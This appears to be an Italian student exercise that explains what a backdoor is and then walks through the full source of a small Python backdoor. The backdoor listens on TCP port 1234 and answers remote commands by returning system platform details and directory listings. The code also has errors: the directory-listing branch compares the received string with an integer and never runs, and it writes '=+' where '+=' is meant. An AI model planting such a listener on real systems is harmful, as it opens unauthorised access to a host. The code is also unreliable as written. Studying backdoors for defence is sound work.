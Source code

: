 # S3_L4

spiegare questo codice che fa riferimento ad una backdoor e spiegare cos’è una backdoor.
Una backdoor è un accesso non autorizzato a un sistema che bypassa i suoi controlli di sicurezza e rimane nascosta cosi da monitorare l attivita degli utenti e rubare dati.
Spiegazione codice:

# questo comando serve a importare varie librerie
import socket, platform, os

# creazione delle variabili di un indirizzo IP e di una porta su cui mettere il sevizio in ascolto
SRV_ADDR = ""
SRV_PORT = 1234

# creazione di un socket IP TCP
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# associazione del socket all indirizzo e alla porta
s.bind((SRV_ADDR, SRV_PORT))

# configurazione del socket per ascoltare
s.listen(1)

# accetttare e stabilire la connessione
connection, address = s.accept()

# messaggio che il client è connesso
print ("client connected: ", address)

# ciclo principale
while 1:
    try:
        # ricezione dei dati
        data = connection.recv(1024)
        
        #se c'è un errore con la ricezione il ciclo continua
    except:continue

    # condizione se i dati ricevuti sono 1 allora invia informazioni sulla piatta forma del client
    if(data.decode('utf-8') == '1'):
        tosend = platform.platform() + " " + platform.machine()
        connection.sendall(tosend.encode())
        
    # condizione se i dati ricevuti sono 2 allora elenca i file nella directory specificata 
    elif(data.decode('utf-8') == 2):
        data = connection.recv(1024)
        try:
            # si ottiene la lista dei file
            filelist = os.listdir(data.decode('utf-8'))
            tosend = ""
            
            # conversione della lista dei file separati da virgole
            for x in filelist:
                tosend =+ "," + x

        #  se si verrifica un errore invia un messaggio di errore   
        except:
            tosend = "Wrong path"
        connection.sendall(tosend.encode())

    #se i dati sono 0 si chiude la connessione e ne accetta una nuova
    elif(data.decode('utf-8') == '0'):
        connection.close()
        connection, address = s.accept()      

